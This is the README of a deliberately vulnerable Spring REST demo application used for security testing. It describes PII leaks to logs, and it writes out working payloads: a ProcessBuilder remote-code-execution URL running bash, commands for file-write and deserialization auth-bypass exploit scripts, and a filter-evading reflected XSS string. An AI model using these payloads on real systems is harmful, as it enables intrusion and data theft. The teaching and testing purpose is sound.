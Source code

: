 # HelloShiftLeft  

This is a demo application which provides a real world representation of a REST service that uses a mix of convention and configuration to simulate a decent set of vulnerabilities exposed in the code. It includes scenarios such as sensitive data leaking to logs, data secrets leaks, authentication bypass, remote code execution, XSS vulnerabilites etc. The sample sensitive data is a mix of financial data such as account information, medical data of patients, and other PII data such as customer information. HelloShiftLeft also contains patterns/anti-patterns of how data is used/abused in interfaces or channels (to and from HTTP/TCP, third-party, database) that can lead to vulnerabilites. The application is built on the Spring Framework and exposes a series of endpoints and APIs for queries and simulating exploits.

## Build
 ```sh
 $ git clone https://github.com/ShiftAndre/HelloShiftLeft.git
 $ cd HelloShiftLeft
 $ mvn clean package
 ```
 
## Run
 ```sh
 $ java -jar target/hello-shiftleft-0.0.1.jar
```

## Exercise Vulnerabilites and Exposures
Once the application starts, vulnerabilites and exposures in it can be tested with API access patterns described below and through example scripts provided in the [exploits](https://github.com/ShiftLeftSecurity/HelloShiftLeft/tree/master/exploits) directory. These are summarized below:  

### Sensitive Data Leaks to Log

| URL | Purpose |
| --- | ------- |
| http://localhost:8081/customers/1 | Returns JSON representation of Customer resource based on Id (1) specified in URL |
| http://localhost:8081/customers   | Returns JSON representation of all available Customer resources |
| http://localhost:8081/patients    | Returns JSON representation of all available patients in record |
| http://localhost:8081/account/1   | Returns JSON representation of Account based on Id (1) specified |
| http://localhost:8081/account     | Returns JSON representation of all available accounts and their details |

All the above requests leak sensitive medical and PII data to the logging service. In addition other endpoints such as `/saveSettings`, `/search/user`, `/admin/login` etc. are also available. Along with the list above, users can explore variations of `GET`, `POST` and `PUT` requests sent to these endpoints.

### Remote Code Execution

An RCE can be triggered through the `/search/user` endpoint by sending a `GET` HTTP request as follows:

[http://localhost:8081/search/user?foo=new java.lang.ProcessBuilder({'/bin/bash','-c','echo 3vilhax0r>/tmp/hacked'}).start()](http://localhost:8081/search/user?foo=new%20java.lang.ProcessBuilder(%7B%27%2Fbin%2Fbash%27%2C%27-c%27%2C%27echo%203vilhax0r%3E%2Ftmp%2Fhacked%27%7D).start())

This creates a file `/tmp/hacked` with the content `3vilhax0r`

### Arbritary File Write

The [filewriteexploit.py](https://github.com/ShiftLeftSecurity/HelloShiftLeft/blob/master/exploits/filewriteexploit.py) script can be executed as follows to trigger the arbritary file writing through the `/saveSettings` endpoint:
```
$ python2 filewriteexploit.py http://localhost:8081/saveSettings testfile 3vilhax0r
```
This creates a file named `testfile` with `3vilhax0r` as its contents

### Authentication Bypass

The [exploit.py](https://github.com/ShiftLeftSecurity/helloshiftleft/blob/master/exploits/JavaSerializationExploit/src/main/java/exploit.py) script allows an authentication bypass by exposing a deserialization vulnerability which allows administrator access:
```
$ python2 exploit.py
```

This returns the following sensitive data:

```
Customer;Month;Volume
Netflix;January;200,000
Palo Alto;January;200,000
```

### XSS

A reflected XSS vulnerability exists in the application and can be triggered using the _hidden_ `/debug` endpoint as follows:

[http://localhost:8081/debug?customerId=1&clientId=1&firstName=a&lastName=b&dateOfBirth=123&ssn=123&socialSecurityNum=1&tin=123&phoneNumber=5432<scriscriptpt>alert(1)</sscriptcript>](http://localhost:8081/debug?customerId=1&clientId=1&firstName=a&lastName=b&dateOfBirth=123&ssn=123&socialSecurityNum=1&tin=123&phoneNumber=5432<scriscriptpt>alert(1)</sscriptcript>)

It raises and alert dialogue and returns the Customer object data.
